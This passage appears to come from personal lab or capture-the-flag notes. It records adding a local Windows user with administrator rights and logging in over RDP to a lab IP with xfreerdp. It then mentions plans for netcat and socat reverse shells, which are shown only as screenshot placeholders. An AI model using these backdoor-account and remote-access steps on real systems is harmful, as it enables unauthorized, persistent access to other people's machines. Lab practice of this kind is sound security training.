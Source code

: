 
```
net user [username] [password] /add
```


```
net localgroup administrators [username] /add
```

![[Pasted image 20240723203028.png]]

We have added the user and will try to RDP now

```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.136.169 /u:testing /p:'testing123'
```

Was able to add the user and got the RDP 
![[Pasted image 20240723203305.png]]


Will get reverse shell through windows using netcat and socat
![[Pasted image 20240723204235.png]]


Let's try with SOCAT
![[Pasted image 20240724020728.png]]

